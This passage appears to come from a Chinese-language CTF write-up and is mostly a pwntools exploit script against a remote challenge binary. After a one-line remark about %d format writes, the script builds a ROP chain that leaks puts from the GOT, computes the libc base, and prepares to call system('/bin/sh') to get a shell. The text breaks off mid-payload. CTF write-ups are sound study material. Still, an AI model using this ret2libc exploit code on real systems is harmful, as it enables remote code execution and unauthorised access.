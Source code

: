 在构造的时候需要注意的一点就是，这里写入的是`%d`也就是四字节，因此对于一个地址我们需要分两次写入。

```
# encoding=utf-8
from pwn import *

file_path = "./pwn"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    gdb.attach(p, "b *0x04012A2\nb *0x401287")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('8.131.246.36', 15823)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0


def add(size):
    p.sendlineafter("&gt;&gt; ", "1")
    p.sendlineafter("size?\n", str(size))


def delete(index):
    p.sendlineafter("&gt;&gt; ", "2")
    p.sendlineafter("index ?\n", str(index))


def edit(index, content, test):
    p.sendlineafter("&gt;&gt; ", "3")
    p.sendlineafter("index ?\n", str(index))
    p.sendafter("new content ?\n", content)
    p.sendlineafter("pass some test first\n", str(test))


def show(index):
    p.sendlineafter("&gt;&gt; ", "4")
    p.sendlineafter("index ?\n", str(index))


p_rdi_r = 0x0000000000401763
start = 0x400750

payload = "+\n"*38
payload += str(p_rdi_r) + "\n0\n"
payload += str(elf.got['puts']) + "\n0\n" + str(elf.plt['puts']) + "\n0\n"
payload += str(start) + "\n0\n"

show(22)
p.sendlineafter("boy\n", "a"*(38 + 8 - 1))
p.sendlineafter("lo\n", payload)

libc.address = u64(p.recvline().strip(b"\n").ljust(8, b"\x00")) - libc.sym['puts']

bin_sh_address = libc.search(b"/bin/sh\x00").__next__()
system_address = libc.sym['system']

payload = "+\n"*38
```